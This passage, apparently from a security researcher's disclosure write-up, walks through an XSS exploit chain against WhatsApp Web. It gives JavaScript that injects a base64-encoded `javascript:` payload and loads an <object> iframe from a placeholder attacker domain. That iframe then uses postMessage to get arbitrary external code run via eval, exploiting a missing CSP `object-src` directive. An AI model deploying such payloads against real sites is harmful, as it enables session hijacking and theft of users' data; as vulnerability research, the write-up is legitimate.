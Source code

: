 You see that `object-src [missing]` down there? (😈)

This is what I am going to do. Using my `javascript:` trick, I am going to inject the following payload to my malicious message:

```javascript
var payload = `
  hard_expire_time.innerHTML +=
  '<object data="https://MY_MALICIOUS_DOMAIN/MY_PAYLOAD_IFRAME.html" />';
  onmessage=(e)=>{eval(JSON.parse(e.data))};
`;
payload = `javascript:"https://facebook.com";eval(atob("${btoa(payload)}"))`;
e.__x_body = e.__x_matchedText = payload;
```

And the content of `https://MY_MALICIOUS_DOMAIN/MY_PAYLOAD_IFRAME.html` would be:
```html
<html>
  <head></head>
  <body>
    <script>
      top.postMessage(
	     JSON.stringify(
		    "open('https://facebook.com');
        alert('external payload');"
	     ),
      "*");
    </script>
  </body>
</html>
```

*(This works for WhatsApp Web)*

See what I just did?
Since `object-src` directive is missing, it means I can use `object` to load an iframe(ish) to any origin of my choice. That way I'll be able to run any external code with no size limits and no problems! All that is left to do is to execute that code on `web.whatsapp.com` domain and not on my own iframe's domain, otherwise that'll be pretty useless.

To achieve that, I simply use the XSS to load the iframe and then listen to the messages that are posted by different windows. I then use the iframe to post a message to the top window with the content of the external code.

The top window, where the XSS was executed, receives the message from the iframe, parses the external payload provided by it and executes it in its context (`web.whatsapp.com`).

Win! External payload was successfully fetched and executed in the context of WhatsApp!

Oh, and that `hard_expire_time.innerHTML` trick? It was the shortest way I could think of at the moment to make the DOM load my Object element (`hard_expire_time` is an element in the DOM of the website).

<ins class="adsbygoogle"
style="display:block; text-align:center;"
data-ad-layout="in-article"
data-ad-format="fluid"
data-ad-client="ca-pub-1379968351324902"
data-ad-slot="5348991370"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
